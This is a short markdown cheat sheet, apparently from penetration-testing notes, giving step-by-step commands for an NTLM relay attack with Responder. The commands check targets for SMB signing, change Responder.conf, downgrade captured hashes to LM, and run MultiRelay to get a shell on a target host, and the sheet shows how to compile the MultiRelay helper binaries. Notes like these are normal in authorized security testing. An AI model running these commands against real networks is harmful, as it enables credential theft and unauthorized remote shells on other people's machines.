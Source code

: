 #### Search for SMB signing
* `responder-RunFinger -i <target>`

#### Responder 
* change `/etc/responder/Responder.conf`
  * `SMB` - off
  * `HTTP` - off
* `responder -I <interface> <--lm>`
  - `--lm` downgrade NTLMv1/v2 hashes to LM hashes where possible
#### Getting shell
While responder is running:
* `responder-MultiRelay -t <target> -u <username/ALL> `

In case of issues with MultiRelay.py:
- `apt-get install gcc-mingw-w64-x86-64`
- `x86_64-w64-mingw32-gcc ./MultiRelay/bin/Runas.c -o ./MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`
- `x86_64-w64-mingw32-gcc ./MultiRelay/bin/Syssvc.c -o ./MultiRelay/bin/Syssvc.exe -municode`

or
- `i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Runas.c -o /usr/share/responder/tools/MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`
- `i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Syssvc.c -o /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe -municode`

[!Important]
To keep `SMB` and `HTTP` On in responder.conf
1. Run responder until hashes is received and close
2. Run Multirelay
3. While MultiRelay is running, run again responder

Meterpreter shell:
* see Metasploit.md from this section
